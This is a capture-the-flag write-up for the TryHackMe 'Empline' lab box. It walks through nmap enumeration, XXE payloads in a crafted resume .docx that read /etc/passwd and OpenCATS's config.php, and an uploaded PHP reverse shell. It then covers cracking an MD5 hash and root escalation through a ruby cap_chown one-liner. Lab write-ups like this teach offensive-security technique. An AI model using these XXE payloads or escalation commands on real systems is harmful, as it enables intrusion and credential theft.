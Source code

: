 ```yaml
---
title: Empline
date: 2022-09-13 02:24 +0530
category: [ Linux, Tryhackme ]
tags: [ TryHackMe, Linux]
---
```


# Enumeration

Starting with nmap
```bash
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 96
|   Capabilities flags: 63487
|   Some Capabilities: SupportsLoadDataLocal, ConnectWithDatabase, ODBCClient, LongPassword, Support41Auth, Speaks41ProtocolNew, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, FoundRows, IgnoreSigpipes, LongColumnFlag, SupportsCompression, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: cM8nEJ&yV~9>l'xIDZxk
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```
Looking at the results, we have port 22, 3306 and 80.

### PORT 80

![image](https://user-images.githubusercontent.com/43528306/138642355-d900a779-6dd5-4f98-8b7a-642c5e7d243d.png)

The website seems almost static except the `Employement` tab which points us to `job.empline.thm/careers`. We need to add this subdomain to our `/etc/hosts` file.

Looking at this subdomain, we found the webserver was running *OpenCATS*, which is free and open source Application Tracking System. The page also list the current openings and a *apply* button.

![image](https://user-images.githubusercontent.com/43528306/138642494-2e4bd5e0-90eb-4bf1-9790-54828408558b.png)

Using `Apply to Position` button, the application allow us to upload our Resume file and other details to apply for the job.

# Exploit
It was exploitable in two ways:

## Using Uploading PHP shell
As the application was written in PHP, we can try to upload a PHP reverse shell using Resume upload functionality. Uploading the Shell and submitting the form, we recieved `Resume was uploaded succesful`. 

The application being open-source, we can easily find the complete directory structure from Github.<br>
We found `/upload` directory, navigating to `job.empline.thm/upload`, we can see our PHP shell was uploaded successfuly, using which we can get a reverse shell.


## Using XXE 
The application was vulnerable to XXE attack as mentioned in this [blogpost](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/), where we can upload are resume. 

Docx file are basically zipped XML files. As the application was reading our *resume.docx* and extracting out the data,
we can assume that its parsing the whole file to extract data from it. We can create a simple docx using the following code
```python
from docx import Document

document= Document()
paragraph = document.add_paragraph("Rocklee")
document.save('resume.docx')
```
### Creating Malicious docx
The script created the .docx file, to modify it according to our purpose, we need to change few things in the file. For this,
- We need to unzip the docx file.
- Modify the content of `word/document.xml`. After first line, add following paylaod:
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
- Save the changes
- Zip the file again with modified contents
```bash
zip resume.docx word/document.xml
```

Upload the file and we have the contents of passwd file.

![image](https://user-images.githubusercontent.com/43528306/138641030-8cda02cf-73bd-4888-9582-7c6be54b2c23.png)

As the application was open-source, from github we found the whole directory structure. Our next task was to extract data from `config.php`
```xml
<!DOCTYPE [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

Using this, we found the credentials to database.
```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```

### Shell as www-data
 We got shell on the box, lets start enumerating the box. Looking at passwd file, we found other users available on the box.
```bash
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
george:x:1002:1002::/home/george:/bin/bash
```
 Looking at the `config.php` in web root folder,
 ```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```
Config file contains creds for MySQL. As from our nmap scan, we confirm that MySQL was running on the box, we can use the creds to login into MySQL.
```mysql
MariaDB [opencats]> select * from user\G;
...[snip]...
*************************** 3. row ***************************
                  user_id: 1251
                  site_id: 1
                user_name: george
                    email: 
                 password: 86d0dfda99dbebc424eb4407947356ac
...[snip]...
```
The database contains a users table with password and username. The password hash was MD5 which we can easily decrypt using any online service 
Using crackstation, we found the password `pretonnevippasempre`

### Shell as George
As we already have the password for the user, we can SSH using the creds we found on the box. Now we can read user.txt file.

Running LinPeas, we found capabilities set on `ruby`.
```bash
george@empline:/$ getcap -r / 2>/dev/null 
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
Ruby was having a capablity of `cap_chown`, This capability allow us to change owner of a file. Looking at [docs](https://apidock.com/ruby/File/chown/class), we found a way to do this in ruby which require user-id and gid to which we want to change this to.
```bash
george@empline:/dev/shm$ ruby -e 'require "fileutils";FileUtils.chown(1002,1002,"/root")'                                                                         
george@empline:/dev/shm$ cd /root                                                                                                                                 george@empline:/root$ ls -la                                                                                                                                       total 36                                                                                                                                                           drwx------  4 george george 4096 Jul 20 19:52 .                                                                                                                   drwxr-xr-x 24 root   root   4096 Oct 25 04:34 ..                                                                                                                   -rw-------  1 root   root      5 Jul 20 19:52 .bash_history                                                                                                       -rw-r--r--  1 root   root   3106 Apr  9  2018 .bashrc                                                                                                             drwxr-xr-x  3 root   root   4096 Jul 20 19:49 .local                                                                                                               -rw-r--r--  1 root   root    148 Aug 17  2015 .profile                                                                                                             drwx------  2 root   root   4096 Jul 20 19:45 .ssh                                                                                                                 -rw-r--r--  1 root   root    227 Jul 20 19:48 .wget-hsts                                                                                                           -rw-r--r--  1 root   root     33 Jul 20 19:48 root.txt           
```
We have now changed the permission of `/root` directory. From here, we can either grab ssh private keys of root, or we can change the permission of *shadow* file and the change the root's password.

ROOT!!

---
- https://man7.org/linux/man-pages/man7/capabilities.7.html
